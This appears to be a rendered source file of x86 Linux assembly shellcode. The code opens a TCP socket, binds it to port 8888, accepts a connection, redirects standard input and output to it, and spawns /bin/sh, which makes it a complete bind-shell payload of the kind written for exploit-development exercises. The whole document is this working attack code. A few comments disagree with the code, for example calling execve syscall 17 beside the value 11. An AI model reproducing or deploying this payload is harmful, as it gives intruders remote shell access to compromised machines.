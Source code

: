 ```assembly
	mov ax, 0x167 ; Syscall 359 = Socket
	mov bl, 2 ; $ebx = Domain = 2 [AF_INET]
	xor ecx, ecx
	mov cl, 1 ; $ecx = Type = 1 [SOCK_STREAM]
	xor edx, edx ; $edx = Protocol = 0 [not set]
	int 0x80 
	
	; Bind - 361
	mov ebx, eax ; $ebx = File descriptor stored in stack / returned by socket syscall
	xor eax, eax
	mov ax, 0x169 ; Syscall 361 = Bind
	xor edi, edi ; edi is 0
	mov edi, 0x12111190 ; 0x12111190 = 0x100007F + 0x11111111
	sub edi, 0x11111111 ; 0x11111111 is an aux value. It can change to 0x22222222, 0x33333333 with the Python wrapper if IP+0x11111111 has NOPs
	push edi ; The real IP gets stored. In this case ip = 127.0.0.1, big endian
    push word 0xb822 ; Port 8888, big endian
    push word 2 ; sin_family value is 2
	mov ecx, esp ; $ecx = 0x2, port, ip
	mov dl, 0x66
	int 0x80 ; eax = 0 now

	; Listen - 363
	mov ax, 0x16b ; Syscall 363 = Listen, $ebx = File descriptor address
	xor ecx, ecx ; $ecx = backlog = 0
	int 0x80 ; eax = 0 now

	; Accept - 364
	mov ax, 0x16c ; Syscall 364 = Accept, $ecx = addr = 0, local address, $edx = Address length is 16 bits 
	xor edx, edx
	xor esi, esi
	int 0x80

	;dup2 - 2, 1, 0
	mov ebx, eax ; $ebx = File descriptor address
	mov cl, 3 ; $ecx = New file descriptor = 0
	int 0x80

bucle:

	xor eax, eax
	mov al, 0x3f ; Syscall is 63 = Dup2
	int 0x80
	dec ecx
	jns bucle
	
	; Execve
	xor eax, eax
	push eax ; Push 0x0
	push 0x68732f2f ; Push '//sh' string
	push 0x6e69622f ; Push '/bin' string
	mov ebx, esp ; $ebx =  '/bin//sh' and 0x0
	push eax ; Push  0x0
	mov edx, esp ; $edx = 0x0
	push ebx ; Push $ebx =  '/bin//sh' and 0x0
	mov ecx, esp ; Address of stack, containing 0x0, '/bin//sh' and 0x0
	mov al, 11 ; Syscall is 17 = Execve
	int 0x80
```
